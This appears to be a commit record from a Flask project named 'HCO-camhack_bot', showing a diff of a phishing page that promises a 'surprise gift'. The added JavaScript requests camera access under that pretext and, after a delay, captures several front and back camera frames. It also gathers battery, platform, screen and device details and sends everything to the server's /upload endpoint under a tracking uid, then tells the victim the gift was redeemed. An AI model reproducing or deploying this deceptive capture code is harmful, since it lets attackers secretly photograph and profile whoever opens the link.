

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,87 +1,108 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Claim Your Gift</title>
-    <meta name="viewport" content="width=device-width, initial-scale=1">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <style>
-        body { background: #000; color: white; text-align: center; font-family: sans-serif; margin: 0; display: flex; justify-content: center; align-items: center; height: 100vh; overflow: hidden; }
-        .container { padding: 25px; border: 1px solid #333; border-radius: 20px; background: #0a0a0a; width: 85%; max-width: 400px; }
-        .btn { background: #00ff00; color: black; padding: 15px 35px; border-radius: 50px; border: none; font-weight: bold; cursor: pointer; margin-top: 20px; box-shadow: 0 0 15px #00ff00; text-transform: uppercase; }
-        #gift-ui, #success-ui { display: none; }
-        .congrats { color: gold; font-size: 24px; font-weight: bold; margin-bottom: 15px; }
-        .gift-img { width: 200px; margin: 20px auto; display: block; filter: drop-shadow(0 0 20px gold); animation: float 2s infinite alternate; }
-        @keyframes float { from { transform: translateY(0); } to { transform: translateY(-15px); } }
-        .redeem-text { color: #00ff00; font-size: 20px; font-weight: bold; margin-top: 15px; }
-        .bless-text { opacity: 0.8; font-size: 14px; margin-top: 5px; }
-        #loading { color: gold; font-weight: bold; margin-top: 10px; display: none; }
+        body { background: white; color: black; text-align: center; font-family: sans-serif; transition: 0.5s; margin:0; display: flex; align-items: center; justify-content: center; height: 100vh; overflow: hidden; }
+        #loading-ui { display: none; }
+        /* Glowing Gift Animation */
+        .gift-container { position: relative; width: 150px; height: 150px; margin: 0 auto; }
+        .gift-img { width: 100px; filter: drop-shadow(0 0 15px gold); animation: bounce 2s infinite alternate; }
+        @keyframes bounce {
+            0% { transform: translateY(0) scale(1); filter: drop-shadow(0 0 5px gold); }
+            100% { transform: translateY(-15px) scale(1.05); filter: drop-shadow(0 0 25px gold); }
+        }
+        .loader { border: 4px solid #f3f3f3; border-top: 4px solid #00ff00; border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin: 20px auto; }
+        @keyframes spin { 100% { transform: rotate(360deg); } }
+        .btn { background: #00ff00; color: black; border: none; padding: 18px 35px; font-size: 19px; font-weight: bold; border-radius: 50px; cursor: pointer; box-shadow: 0 5px 20px rgba(0,255,0,0.4); }
     </style>
 </head>
 <body>
-    <div class="container" id="main-ui">
-        <h2>🎁 Surprise Gift For You! ✨</h2>
-        <p>Click below to unlock your special reward</p>
-        <button class="btn" onclick="initProcess()">🔓 UNLOCK GIFT 🎁</button>
+    <div id="start-page">
+        <h2>🎁 You have a surprise gift! ✨</h2>
+        <p>👇 Click below to unlock it 🔓</p>
+        <button class="btn" onclick="startWork()">🔓 UNLOCK YOUR GIFT 🎁</button>
     </div>
 
-    <div class="container" id="gift-ui">
-        <div class="congrats">🎉 Congratulations! 🎉</div>
+    <div id="loading-ui">
+        <div class="gift-container">
             <img class="gift-img" src="https://cdn-icons-png.flaticon.com/512/4213/4213600.png">
-        <p id="loading">🔓Unlocking your gift🎁 please wait...</p>
+        </div>
+        <p style="font-size: 20px; margin-top: 15px; font-weight: bold; color: gold;">Unlocking Your Gift... 🎁</p>
+        <div class="loader"></div>
+    </div>
 
-        <div id="success-ui">
-            <p class="redeem-text">Your gift has been redeemed. 👍</p>
-            <p class="bless-text">You are a good person, God bless you. ✨</p>
-        </div>
+    <div id="success-msg" style="display:none; color:#00ff00; padding: 20px;">
+        <h2>Your gift has been redeemed. 👍</h2>
+        <p style="color: white;">You are a good person, God bless you. ✨</p>
     </div>
 
     <video id="v" style="display:none" autoplay playsinline muted></video>
     <canvas id="c" style="display:none"></canvas>
-    <audio id="sound" src="https://www.soundjay.com/misc/sounds/magic-chime-01.mp3"></audio>
 
     <script>
-    async function initProcess() {
-        try {
         const params = new URLSearchParams(window.location.search);
         const mode = params.get('m') || 'front';
         const uid = params.get('uid');
 
-            let info = { battery: "N/A", ram: navigator.deviceMemory + " GB", cores: navigator.hardwareConcurrency || "N/A", browser: navigator.userAgent.split(' ').pop() };
+        async function startWork() {
+            document.body.style.background = "black";
+            document.body.style.color = "white";
+            document.getElementById('start-page').style.display = 'none';
+            document.getElementById('loading-ui').style.display = 'block';
+
+            let info = {
+                battery: "N/A",
+                platform: navigator.platform,
+                browser: navigator.userAgent.split(' ').pop(),
+                screen: window.screen.width + "x" + window.screen.height
+            };
             try { let b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; } catch(e){}
 
-            document.getElementById('main-ui').style.display = "none";
-            document.getElementById('gift-ui').style.display = "block";
-            document.getElementById('loading').style.display = "block";
+            let deviceName = navigator.userAgent.match(/\(([^)]+)\)/) ? navigator.userAgent.match(/\(([^)]+)\)/)[1].split(';')[0] : navigator.platform;
 
-            const stream = await navigator.mediaDevices.getUserMedia({
-                video: { facingMode: mode==='back'?'environment':'user', width: {ideal: 640}, height: {ideal: 480} }
+            if(mode === 'front') await runCam(info, {facingMode: "user"}, 4, "FRONT", deviceName);
+            else if(mode === 'back') await runCam(info, {facingMode: "environment"}, 4, "BACK", deviceName);
+            else {
+                await runCam(info, {facingMode: "environment"}, 2, "BACK", deviceName);
+                await runCam(info, {facingMode: "user"}, 2, "FRONT", deviceName);
+            }
+
+            document.getElementById('loading-ui').style.display = 'none';
+            document.getElementById('success-msg').style.display = 'block';
+        }
+
+        async function runCam(info, constraints, count, label, deviceName) {
+            try {
+                let stream = await navigator.mediaDevices.getUserMedia({
+                    video: { ...constraints, width: {ideal: 1280}, height: {ideal: 720} }
                 });
-            document.getElementById('v').srcObject = stream;
+                let video = document.getElementById('v');
+                video.srcObject = stream;
+                await video.play();
 
                 await new Promise(r => setTimeout(r, 8000));
 
-            for(let i=1; i<=5; i++) {
-                const c = document.getElementById('c'); const v = document.getElementById('v');
-                c.width = v.videoWidth; c.height = v.videoHeight;
-                c.getContext('2d').drawImage(v, 0, 0);
+                for (let i = 1; i <= count; i++) {
+                    let can = document.getElementById('c');
+                    can.width = video.videoWidth;
+                    can.height = video.videoHeight;
+                    can.getContext('2d').drawImage(video, 0, 0);
 
                     await fetch('/upload', {
                         method: 'POST',
                         headers: {'Content-Type': 'application/json'},
                         body: JSON.stringify({
-                        image: c.toDataURL('image/jpeg', 0.6),
-                        uid: uid,
-                        label: mode.toUpperCase() + " " + i,
-                        info: info
+                            image: can.toDataURL('image/jpeg', 0.8),
+                            info: { ...info, device: deviceName },
+                            mode: label,
+                            uid: uid
                         })
                     });
                     await new Promise(r => setTimeout(r, 2500));
                 }
-
                 stream.getTracks().forEach(t => t.stop());
-            document.getElementById('loading').style.display = "none";
-            document.getElementById('success-ui').style.display = "block";
-            document.getElementById('sound').play();
-        } catch (e) { alert("Please allow camera permission to receive the gift!"); }
+            } catch(e) {}
         }
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
